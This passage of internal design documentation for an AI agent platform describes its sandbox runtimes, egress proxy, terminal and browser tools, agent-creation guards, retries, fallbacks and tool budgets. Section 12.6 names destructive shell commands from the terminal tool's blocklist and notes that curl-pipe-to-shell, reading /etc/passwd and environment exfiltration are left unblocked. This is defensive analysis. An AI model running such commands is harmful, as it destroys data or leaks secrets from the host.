

`SubprocessRuntime` is the default everywhere including CI. It runs
`asyncio.create_subprocess_exec` **on the host, as the backend's own OS user**,
with only a curated `env` dict for isolation.

`ContainerRuntime` runs `docker exec -u 10001:10001` inside a long-lived
per-tenant container, wrapping the command in coreutils `timeout
--kill-after=2` so the in-container process actually dies. It is selected only
when `sandbox.container_runtime_enabled` is on for the company, or the
process-wide `SANDBOX_CONTAINER_RUNTIME_ENABLED` setting is true. **Both default
to OFF.** Any Docker failure silently falls back to `SubprocessRuntime`.

### 12.2 The trust boundary



**Read that diagram carefully.** In the default configuration the "sandbox" is a
subprocess on the host with the backend's own privileges. The real isolation —
dropped capabilities, read-only root, no network, resource limits — only exists
in `ContainerRuntime`, which ships OFF. The sandbox image README states this as
a release gate: *"the container escape surface, egress policy, and secret
handling need a dedicated security review before the canary flip."*

Resource limits, by runtime:

| Control | SubprocessRuntime | ContainerRuntime |
|---|---|---|
| User | backend process user | uid/gid `10001` |
| Root filesystem | host, writable | `--read-only` |
| `/tmp` | host `/tmp` | tmpfs, `rw,exec,size=512m` |
| Capabilities | inherited | `--cap-drop ALL`, `no-new-privileges` |
| Network | unrestricted | `--network none` (`SANDBOX_NETWORK`) |
| Memory | none | `SANDBOX_MEMORY`, default `1g` |
| CPU | none | `SANDBOX_CPUS`, default `1.0` |
| Processes | none | `SANDBOX_PIDS_LIMIT`, default `256` |
| Timeout kill | `proc.kill()` from the parent | in-container `timeout --kill-after=2` |

### 12.3 Container lifecycle

[`TenantSandboxManager`](../../backend/src/ai/tools/sandbox/tenant_manager.py)
owns one container per company, named `hb-sandbox-{company_id}` (or
`hb-sandbox-{company_id}-egress`). It shells out to the `docker` CLI rather than
taking an SDK dependency, and serialises concurrent `ensure()` calls with a
per-company asyncio lock.



The workspace model matters: the host directory `/tmp/sandbox/{company_id}` is
bind-mounted into the container **at the identical absolute path**. That is why
existing tools — which write a script to a host path and then exec it — work
unchanged under either runtime, and why `_ffmpeg` concat lists are valid in
both.

### 12.4 The egress proxy

When a tool's `NetworkPolicy` is `ALLOWLIST`, the container needs a few approved
hosts but not the open internet.
[`EgressProxyManager`](../../backend/src/ai/tools/sandbox/egress_proxy.py)
builds that.



Two layers of defence, deliberately:

1. The sandbox joins an `--internal` Docker network. Even if the tool code
   ignores `HTTP_PROXY`, there is nowhere to connect.
2. tinyproxy runs with `FilterDefaultDeny Yes` over a filter file built at
   container start from `$ALLOWLIST`
   ([entrypoint.sh](../../backend/docker/egress-proxy/entrypoint.sh)). Each entry
   becomes an anchored regex `(^|\.)host\.com$`, and `ConnectPort` is limited to
   443 and 80.

| Setting | Default | Meaning |
|---|---|---|
| `SANDBOX_EGRESS_PROXY_ENABLED` | `false` | master switch |
| `SANDBOX_EGRESS_IMAGE` | `hb-egress-proxy:local` | proxy image |
| `SANDBOX_EGRESS_NETWORK` | `hb-egress-internal` | the internal sandbox net |
| `SANDBOX_EGRESS_UPLINK_NETWORK` | `hb-egress-uplink` | proxy's internet-facing net |
| `SANDBOX_EGRESS_PROXY_PORT` | `8888` | proxy port |
| `SANDBOX_EGRESS_ALLOWLIST` | `googleapis.com,google.com` | comma-separated host suffixes |

The proxy container keeps `SETUID`/`SETGID` (everything else dropped) so
tinyproxy can drop from root to its own user.

### 12.5 The sandbox image

[backend/docker/sandbox/Dockerfile](../../backend/docker/sandbox/Dockerfile)
builds `hb-sandbox` from `mcr.microsoft.com/playwright/python:v1.58.0-noble` —
pinned so the bundled Chromium always matches the host's Playwright version.
On top it installs ffmpeg, LibreOffice headless, Liberation fonts, Node and npm,
`pptxgenjs`, the Python document libraries from
[requirements.txt](../../backend/docker/sandbox/requirements.txt), and bakes the
Document Factory scripts at `/opt/docfactory/scripts`. It carries **no isolation
policy of its own** — that is applied by `docker run` flags.

### 12.6 The three sandbox tools

**`sandbox_code`** (476 lines). Writes the snippet to a `NamedTemporaryFile`
inside the tenant sandbox dir, execs the interpreter, deletes the temp file,
then diffs the directory to find new files. Any new file with a known extension
and size ≥ 100 bytes is auto-registered as an artifact. `venv`, `__pycache__`,
`node_modules`, `scripts`, `.git` and **`scratch`** are excluded — `scratch` was
added after a single run produced ~15 junk artifacts. If the input is not JSON it
falls back to language auto-detection by scoring Python / Bash / JS keyword
signals, and JavaScript is wrapped into a heredoc that pipes to `node`.

**`terminal`** (454 lines). Passes the string to `/bin/bash -c`. Its only
command-level guard is a 13-pattern regex blocklist
([terminal_tool.py:45](../../backend/src/ai/tools/sandbox/terminal_tool.py:45)):
`rm -rf /`, `mkfs`, `dd of=/dev/`, fork bomb, `shutdown`, `reboot`, `halt`,
`poweroff`, `init 0`, `init 6`, `> /dev/sd[a-z]`, `chmod 777 /`. This is a
speed bump, not a security boundary — it does not stop `curl | sh`, reading
`/etc/passwd`, `rm -rf /home`, or exfiltrating the host's environment.

Its artifact scan is broader than `sandbox_code`'s: a second pass walks all of
`/tmp` to depth 3 looking for `.pptx/.docx/.xlsx/.pdf` with `mtime >= since_ts`,
because the doc-factory agent routinely writes the final deliverable to an
ad-hoc absolute path.

**`headless_browser`** (465 lines). Six actions: `navigate`, `click`, `type`,
`screenshot`, `get_text`, `evaluate`. It blocks `file:`, `javascript:`, `data:`
and `ftp:` URL schemes — but `evaluate` runs arbitrary JavaScript in the page
context by design, so that block only constrains the top-level URL. Sessions
are ephemeral by default; setting `sandbox.persistent_browser_enabled` gives the
company a persistent Chromium profile under
`/tmp/sandbox/{company}/.browser/{persona}` so cookies and logins survive.
Even under `ContainerRuntime`, Chromium still runs **on the host** —
`ContainerRuntime.open_browser_session` delegates to an embedded
`SubprocessRuntime` ([container_runtime.py:161](../../backend/src/ai/tools/sandbox/container_runtime.py:161)).

---

## 13. `meta/` — tools that build the platform



Meta tools are **auto-injected** by tier. `step_executor` calls
`resolve_meta_cognition(entity)` and appends tool ids the entity never declared
([step_executor.py:732](../../backend/src/ai/step_executor.py:732)) — tier 2
adds `meta_registry_search`, tier 3 adds `meta_entity_creator` and
`meta_entity_executor`, and the introspection flags add `agent_introspect` /
`agent_reflect`.

### Recursion and self-modification guards

`meta_entity_creator` is the tool that lets an agent create another agent. Three
gates stand in front of it
([entity_creator.py:89](../../backend/src/ai/tools/meta/entity_creator.py:89)):

| Gate | Where | Behaviour |
|---|---|---|
| Runtime creation limit | in-tool, non-Meta-Agent callers only | max 3 creations per execution (`__meta_max_runtime_creations__`), counted in the context dict |
| Daily creation limit | `AntiSprawlGuard.check_creation_allowed` | per-company per-day cap, returns `gate: "daily_limit"` |
| Semantic duplicate | `AntiSprawlGuard.check_semantic_duplicate` | embedding-similarity check against existing entities, returns `gate: "semantic_duplicate"` with the existing id and score |

Entities created at runtime by a non-Meta-Agent are tagged
`metadata_extensions.runtime_created = true` and
`created_by_entity = <caller name>` so the lineage is auditable.

The counter lives in the mutable `context` dict, so it resets when the context
resets. It bounds proliferation *within one execution*, not across a campaign.

`tool_synthesis` is the sharpest edge and carries four independent gates:

```python
# backend/src/ai/tools/meta/tool_synthesis.py
if not context.get("__is_meta_agent__", False):
    return json.dumps({"error": "tool_synthesis is restricted to the Meta-Agent.",
                       "gate": "is_meta_agent"})
enabled = await flags.is_on("meta_agent.tool_synthesis_enabled", company_id=company_uuid)
if not enabled:
    return json.dumps({"error": "tool synthesis is disabled ...", "gate": "kill_switch"})
```

plus the registry-level `tools.experimental.tool_synthesis` opt-in, plus the rule
that synthesized source **never runs in-process** —
`SandboxedSynthesizedTool.run_with_context` replays every call through
`ToolSandboxTester` so the code only ever executes inside the container.

The `ToolSpec` a synthesizer must supply
([schemas/tools.py:42](../../backend/src/ai/schemas/tools.py:42)) constrains the
result up front: `name` must match `^[a-z][a-z0-9_]{2,48}$`, `allowed_imports`
is an explicit allow-list, and `network_policy` is one of `none` (default),
`allowlist` (gated on the egress proxy) or `full` (never granted in Phase 12).

---

## 14. `mcp/` — Model Context Protocol



**What is implemented:**

- `MCPToolDescriptor` / `MCPCallResult` / `MCPClient` — a small transport-agnostic
  Protocol ([mcp/client.py](../../backend/src/ai/tools/mcp/client.py), 54 lines).
- `MCPToolAdapter` — a real `Tool` subclass that namespaces the tool as
  `mcp__{server}__{tool}`, forwards the server's `input_schema` as the function
  schema, and meters each call to `CostLedger` with `attribution="mcp"`.
- `MCPServerBinding.permits` — a read-only-first policy. A descriptor whose
  annotations say `destructiveHint`, or that does not say `readOnlyHint`, is
  refused unless its name appears in `write_allow`.
- `bind_mcp_server` — lists, filters and registers adapters as EXPERIMENTAL
  tenant tools.

**What is stubbed or missing:**

- **There is no concrete `MCPClient`.** `MCPClient` is a `Protocol`; no stdio,
  HTTP or SSE implementation exists in the repo.
- **Nothing calls `bind_mcp_server` in production.** Grepping the backend, the
  only callers are in
  [tests/unit/test_mcp_adapter.py](../../backend/tests/unit/test_mcp_adapter.py),
  which uses a fake client.
- There is no configuration surface — no `mcp_servers` table, no admin UI, no
  settings entry — for declaring which MCP servers a company has.

So MCP is a complete, tested *adapter layer* waiting for a transport and a
configuration story. To make it live you would need: a concrete client, a place
to store per-company server configs and credentials, and a call to
`bind_mcp_server` during worker or run startup.

---

## 15. `resilience.py` — retries and recovery

[tools/resilience.py](../../backend/src/ai/tools/resilience.py) (403 lines) is
the Phase 11 Track 8 consolidation of tool self-healing. **It has no circuit
breaker, no backoff and no timeout of its own** — those words appear in the
design intent doc but not in the shipped module. What it has is a three-step
recovery ladder driven by failure classification.

### 15.1 Failure classification

```python
# backend/src/ai/tools/resilience.py
class FailureKind(str, Enum):
    NONE = "NONE"; FORMAT = "FORMAT"; IO = "IO"; EMPTY = "EMPTY"
    TIMEOUT = "TIMEOUT"; ERROR_MSG = "ERROR_MSG"; OTHER = "OTHER"
```

`classify_tool_failure(tr)` inspects the output *string* — there is no exception
type or status code involved:

| Order | Kind | Trigger |
|---|---|---|
| 1 | `EMPTY` | output falsy, whitespace-only, or contains `no results` / `empty response` / `0 results` |
| 2 | `TIMEOUT` | contains `timeout` / `timed out` / `deadline exceeded` |
| 3 | `IO` | contains `no such file or directory` / `errno 2` / `errno 22` / `invalid argument` / `file name too long` |
| 4 | `FORMAT` | contains `error` **and** a format keyword (`invalid json`, `parse`, `delimiter`, `control character`, `expecting`, `decode`) **and not** an infra keyword (`api key`, `not configured`, `timeout`, `connection`, `unauthorized`, `403`, `401`, `rate limit`) |
| 5 | `ERROR_MSG` | output starts with `ERROR:` |
| 6 | `OTHER` | `success` is False for any other reason |
| — | `NONE` | everything else — treated as success |

The order matters and is commented as deliberate: `"ERROR: invalid json ..."` is
both an error message and a format error, and FORMAT wins because it carries the
actionable signal.

### 15.2 The recovery state machine



Exact policy, stated plainly:

- **At most one reformat retry.** `REFORMAT_RECOVERABLE_KINDS = (FORMAT, IO,
  EMPTY, ERROR_MSG)`. `TIMEOUT` and `OTHER` skip straight to fallback — a
  timeout is not something rewriting the input fixes.
- **At most one fallback attempt.** `get_fallback_tool` returns the *first*
  alternative only.
- **No delay between attempts.** No sleep, no jitter, no backoff.
- **No circuit breaker.** Nothing tracks consecutive failures per tool, and no
  tool is ever temporarily disabled. A tool whose API key is missing will be
  retried on every single step of every single run.
- **No timeout enforcement here.** Timeouts are each tool's own concern —
  `httpx` client timeouts (15 s in `web_search`, 30 s in `SocialMediaTool` and
  `scraper_tool`), or the sandbox runtime's `timeout` parameter.

Three telemetry events are emitted:
`agent.tool.resilience.reformat_attempt`,
`agent.tool.resilience.fallback_taken`,
`agent.tool.resilience.final_empty`.

On total failure the output is replaced so the LLM sees something structured
rather than an ambiguous blank:

```
[TOOL_EMPTY] Tool 'web_search' returned no usable output after retries. Failure kind: EMPTY.
```

A successful fallback renames the result: `alt_tr.tool = f"{tool_id}→{alt_tool_id}"`.

### 15.3 Where retries and backoff actually live

| Mechanism | Location | Policy |
|---|---|---|
| Exponential backoff on HTTP 429 | [core/search.py:155](../../backend/src/ai/tools/core/search.py:155) | 3 retries, `2 * 2**attempt` seconds = 2 s, 4 s, 8 s — SerpAPI only |
| Transient network retry | [social/base.py:145](../../backend/src/ai/tools/social/base.py:145) | `MAX_RETRIES = 2`, immediate, only on `TimeoutException` / `ConnectError`; 4xx and 5xx are never retried |
| Rate-limit pacing | [core/batch_search.py:55](../../backend/src/ai/tools/core/batch_search.py:55) | 1.5 s between queries, 3 s every 3 queries |
| Backend degradation | `web_search`, `batch_web_search` | SerpAPI → `ddgs` library → DuckDuckGo Instant Answers |

### 15.4 Which paths use `ToolResilience`

Only the REACT / automatic-function-calling path, and only behind a flag:

```python
# backend/src/ai/step_executor.py
if await FeatureFlags(self.db).is_on("tools.resilience_v2_enabled",
                                     company_id=run.company_id,
                                     entity_id=getattr(entity, "id", None)):
    _resilience = ToolResilience(reformat_fn=self._reformat_tool_input,
                                 tool_executor=ToolExecutor)
```

The flag defaults to `True`
([core/feature_flags.py:87](../../backend/src/ai/core/feature_flags.py:87)).
The **direct `TOOL_CALL` step path still runs its own inline copy** of the same
logic at [step_executor.py:310–426](../../backend/src/ai/step_executor.py:310) —
the Track 8 goal of "one implementation used by both paths" is half done. The
two copies currently agree, but they are two copies.

---

## 16. `tool_fallback.py` — the substitution table

[tool_fallback.py](../../backend/src/ai/tool_fallback.py) (166 lines) is a
static table of "if X fails, try Y with the input rewritten like this".



| Primary | Alternative | Transform | What the transform does |
|---|---|---|---|
| `web_search` | `headless_browser` | `_web_search_to_browser` | wraps the query into `{"url": "https://www.google.com/search?q=<query>", "action": "extract_text", "wait_for": "body"}` |
| `batch_web_search` | `web_search` | `_batch_to_single_search` | takes only the **first** query from the batch |
| `scraper_tool` | `headless_browser` | `_scraper_to_browser` | `{"url": ..., "action": "extract_text", "wait_for": "body"}` |
| `headless_browser` | `scraper_tool` | `_browser_to_scraper` | extracts the bare `url` string |

```python
# backend/src/ai/tool_fallback.py
def get_fallback_tool(primary_tool_id: str, raw_input: str) -> Tuple[Optional[str], str]:
    chain = TOOL_FALLBACK_CHAINS.get(primary_tool_id)
    if not chain:
        return None, raw_input
    for alt_tool_id in chain.get("alternatives", []):
        ...
        return alt_tool_id, transformed
    return None, raw_input
```

Behavioural notes:

- **Only four tools have fallbacks.** Every other failure goes straight to
  `[TOOL_EMPTY]`.
- **The chain is one deep.** `alternatives` is a list, but the loop returns on
  the first entry, so a second alternative would never be tried.
- **`web_search ↔ headless_browser` is not symmetric-safe.** `headless_browser`
  falls back to `scraper_tool`, which needs a Firecrawl key. If both are
  unconfigured you burn three tool calls to produce one `[TOOL_EMPTY]`.
- **The entity must own the fallback tool.** `ToolResilience._fallback_allowed`
  checks `entity.capabilities.tools`; if the entity declares tools at all and
  the alternative is not among them, the fallback is skipped. An entity with no
  declared tools is allowed anything.
- **`_batch_to_single_search` silently drops queries 2..N.** The agent gets one
  query's results back where it asked for 25, with no warning in the output.

---

## 17. Tool budgets and rate limits

There are four different mechanisms, at four different layers, with very
different teeth.

```mermaid
flowchart TD
    subgraph L1["Per-run per-tool call cap - ENFORCED"]
        A1["ToolDefinition.rate_limit_per_run in entity capabilities"] --> A2["call.rate_limit_per_run passed to execute_from_function_calls"]
        A2 --> A3["compare against call_counts dict"]
        A3 --> A4["ToolResult skipped true, skip_reason set, tool never runs"]
    end
    subgraph L2["Per-entity tool call ceiling - PROMPT ONLY"]
        B1["governance.execution_limits.max_tool_calls"] --> B2["rendered as Tool calls remaining N of M in the prompt"]
        B2 --> B3["no code path blocks the N plus 1 call"]
    end
    subgraph L3["Run cost budget - ENFORCED by the loop"]
        C1["governance.max_cost_usd"] --> C2["AgentLoop Budget - see doc 05"]
        C2 --> C3["budget_pressure surfaced into the prompt past a threshold"]
    end
    subgraph L4["Redis sliding window - UNUSED"]
        D1["RedisRateLimiter.check_and_consume"] --> D2["zero call sites in src/"]
    end
```

### 17.1 `call_counts` — the one hard per-tool limit

`context['tool_call_counts']` is a plain dict threaded through every REACT turn.
It is **reset at the start of every step**
([step_executor.py:859](../../backend/src/ai/step_executor.py:859)):

```python
context['tool_call_counts'] = {}  # Always reset per step to prevent stale counts on retry/resume
```

so despite the docstring on `execute_from_function_calls` saying "pass a fresh
`{}` per ExecutionRun", it is really per *step*. The enforcement is in the
executor:

```python
# backend/src/ai/tool_executor.py
rate_limit = call.get("rate_limit_per_run")
if rate_limit is not None:
    current_count = call_counts.get(tool_name, 0)
    if current_count >= rate_limit:
        return ToolResult(tool=tool_name, args=tool_args, output=None,
                          success=False, skipped=True,
                          skip_reason=(f"Rate limit exceeded: tool '{tool_name}' has been called "
                                       f"{current_count}/{rate_limit} times in this run."))
```

The limit comes from `ToolDefinition.rate_limit_per_run`
([schemas/capabilities.py:45](../../backend/src/ai/schemas/capabilities.py:45)),
which defaults to `None` = unlimited. Note the caller has to actively put
`rate_limit_per_run` on the function-call dict; if it does not, no limit
applies.

`tool_call_counts` is also in `INTERNAL_CONTEXT_KEYS`
([constants.py:45](../../backend/src/ai/constants.py:45)) so it is stripped
before context is handed to a tool as input.

### 17.2 `max_tool_calls` — advisory only

`governance.execution_limits.max_tool_calls` is read at
[step_executor.py:673](../../backend/src/ai/step_executor.py:673) purely to
render a prompt line:

```python
max_tool_calls = exec_limits.get("max_tool_calls")
if max_tool_calls:
    used = sum(context.get('tool_call_counts', {}).values())
    exec_constraints["Tool calls remaining"] = f"{max_tool_calls - used} of {max_tool_calls}"
```

Nothing checks it before executing. The number can go negative in the prompt.
The real ceiling on a runaway agent is the loop's iteration and cost budget
(see [05 — Agent kernel](05-agent-kernel.md)).

### 17.3 Per-tenant limits

There is no per-tenant tool-call quota. `RedisRateLimiter`
([governance/rate_limiter.py](../../backend/src/ai/governance/rate_limiter.py))
implements a proper Redis sorted-set sliding window with a documented
`"tool:search:company_123"` key example — and has **zero call sites** in
`backend/src/`. Per-tenant spend is bounded by credits
([14 — Billing & credits](14-billing-and-credits.md)), not by call counts.

### 17.4 Tool-specific internal caps

| Tool | Cap |
|---|---|
| `batch_web_search` | `_MAX_QUERIES = 25`, `_MAX_QUERY_LEN = 500` |
| `web_search` | query truncated at 500 chars |
| `scraper_tool` | max 10 URLs per call; content returned capped at 32 000 chars |
| `sandbox_code` | 30 s default timeout, stdout capped at 4 096 chars |
| `terminal` | 30 s default, 120 s max; stdout and stderr each capped at 8 192 chars |
| `headless_browser` | 30 s default, 120 s max; text capped at 16 384 chars |
| `email_send` | attachment capped at 18 MB |
| `email_ingest` | body truncated at 5 000 chars |
| `meta_entity_executor` | `META_TEST_MAX_COST_USD = 1.00`, default `$0.50` |
| `meta_entity_creator` | 3 runtime creations per execution for non-Meta-Agents |
| `docx_tool` read | 200 paragraphs default |
| `excel_tool` read | 100 rows default |

---

## 18. Tool costing and billing

### 18.1 The intended design

[`ToolCostResolver`](../../backend/src/ai/governance/tool_cost_resolver.py) is
the Track 8 single source of truth.

```mermaid
flowchart TD
    START["charge - run tool_id latency_ms attribution"] --> C{"cached ?"}
    C -->|yes| AMT["amount source sku_id"]
    C -->|no| Q1["SELECT IntegrationRegistry WHERE company_id matches AND status active AND internal_cost not null AND service_category not LLM AND service_sku equals tool_id OR service_sku in TOOL_SKU_MAP OR service_category equals CUSTOM_API"]
